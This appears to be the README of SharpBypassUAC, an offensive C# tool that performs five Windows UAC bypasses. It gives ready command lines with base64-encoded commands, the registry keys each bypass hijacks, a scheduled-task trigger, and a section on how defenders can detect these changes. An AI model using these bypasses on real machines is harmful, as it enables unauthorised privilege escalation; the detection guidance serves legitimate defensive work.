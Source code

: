 # SharpBypassUAC
C# tool for UAC bypasses

# Usage
SharpBypassUAC currently supports the **eventvwr**, **fodhelper**, **sdclt**, **slui**, and **DiskCleanup** UAC bypasses.

SharpBypassUAC accepts a base64 encoded windows command to be executed in high integrity. The command is base64 encoded to be easily used in tools such as Covenant's "Assembly" task

## Parameters
  -b, --bypass=VALUE         Bypass to execute: eventvwr, fodhelper, sdclt, slui, diskcleanup
  
  -e, --encodedCommand=VALUE Base64 encoded command to execute

### Example usage for eventvwr bypass to launch calc.exe
SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for fodhelper bypass to launch calc.exe
SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for sdclt bypass to launch calc.exe
SharpBypassUAC.exe -b sdclt -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
- Note: this appears to only work on Windows 10 in my testing

### Example usage for slui bypass to launch calc.exe
SharpBypassUAC.exe -b slui -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for DiskCleanup bypass to launch calc.exe
SharpBypassUAC.exe -b dikcleanup -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==
- Note: The command you execute will need to end in "&& REM"

## Detections
Most of these bypasses rely on modifying registry keys in the HKCU hive, specifically keys under HKCU\Software\Classes\. HKCU\Software\Classes\ should be monitored for any new keys or modification to existing keys. If this is too noisy in your environment, the specific keys used for each technique are listed below.

### Eventvwr
Registry modifications to:
- HKCU\Software\Classes\mscfile\Shell\Open\command
  - Modifies the "(default)" value with the command to execute

### Fodhelper
Registry modifications to:
- HKCU\Software\Classes\ms-settings\Shell\Open\command
  - Modifies the "(default)" value with the command to execute
  - Modifies the "DelegateExecute" value with an empty value

### SDCLT
Registry modifications to:
- HKCU\Software\Classes\Folder\shell\open\command
  - Modifies the "(default)" value with the command to execute
  - Modifies the "DelegateExecute" value with an empty value

### SLUI
Registry modifications to:
- HKCU\Software\Classes\exefile\Shell\Open\command
  - Modifies the "(default)" value with the command to execute

### DiskCleanup
Registry modifications to:
- HKCU\Environment
  - Modifies the "windir" value with the command to execute

Starts the "\Microsoft\Windows\DiskCleanup\SilentCleanup" scheduled task. Example:

schtasks /Run /TN \\Microsoft\\Windows\\DiskCleanup\\SilentCleanup /I

# Credits
**eventvwr**:
[enigma0x3's](https://github.com/enigma0x3) [Invoke-EventVwrBypass.ps1 script](https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1)

**fodhelper**:
[winscripting.blog's](https://github.com/winscripting) [FodhelperBypass.ps1 script](https://github.com/winscripting/UAC-bypass)

**sdclt**: [Emeric Nasi's](https://twitter.com/emericnasi?lang=en) [blog post](http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass)

**slui**: [bytecode77's](https://github.com/bytecode77) [slui file handler hijack tool](https://github.com/bytecode77/slui-file-handler-hijack-privilege-escalation)

**DiskCleanup**: [enigma0x3's](https://github.com/enigma0x3) Bypassing UAC on Windows 10 using Disk Cleanup [blog post](https://enigma0x3.net/2016/07/22/bypassing-uac-on-windows-10-using-disk-cleanup/) and [gushmazuko's](https://github.com/gushmazuko) [DiskCleanupBypass_direct.ps1 script](https://github.com/gushmazuko/WinBypass/blob/master/DiskCleanupBypass_direct.ps1)

Many of these were discovered by going through the **UACME** project found on [github](https://github.com/hfiref0x/UACME/).
